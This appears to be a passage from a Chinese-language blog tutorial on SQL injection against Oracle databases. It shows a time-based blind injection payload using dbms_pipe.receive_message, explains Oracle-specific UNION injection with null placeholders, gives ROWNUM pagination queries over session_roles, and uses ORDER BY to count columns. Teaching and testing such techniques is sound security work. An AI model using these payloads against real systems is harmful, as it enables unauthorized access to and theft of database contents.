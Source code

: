 

![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly9pbWcyMDE4LmNuYmxvZ3MuY29tL2Jsb2cvNDg1MTk2LzIwMTkwMS80ODUxOTYtMjAxOTAxMTAxNzEyMDMzNTAtOTQyNTcxMDk3LnBuZw?x-oss-process=image/format,png)



时间盲注

----



```
select*from LOCATIONS WHERE LOCATION_ID=1000 and 1=dbms_pipe.receive_message('RDS', 3)
```




![](https://img-blog.csdnimg.cn/20200307220658569.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



Union联合注入

---------



Oracle 在使用 union 查询的时候跟 MySQL 不一样，MySQL里面用1,2,3,4就能占位，而在Oracle里面有比较严格的类型要求。也就是说你 union select 的要和前面的字段类型一样，我们可以用 null 来代替站位。  

Oracle 和 MySQL 不一样，分页中没有 limit，而是使用三层查询嵌套的方式实现分页(查询第一条数据“>=0<=1”) 例如:



```
当使用这条命令查询当前用户的角色，一般会有很多行数据      
select * from session_roles      
我们这里只显示第一行数据，可以如下      
SELECT * FROM ( SELECT A.*, ROWNUM RN FROM (select * from session_roles) A WHERE ROWNUM <=1  ) WHERE RN >= 1      
只显示第二行数据      
SELECT * FROM ( SELECT A.*, ROWNUM RN FROM (select * from session_roles) A WHERE ROWNUM <=2  ) WHERE RN >= 2      
只显示第三行数据      
SELECT * FROM ( SELECT A.*, ROWNUM RN FROM (select * from session_roles) A WHERE ROWNUM <=3) WHERE RN >= 3      
以此类推
```




首先使用order by 判断列数，如下判断列数是6



```
select*from LOCATIONS WHERE LOCATION_ID=1000 order by 6
```




然后将其中的查询语句换成其他查询信息语句即可 
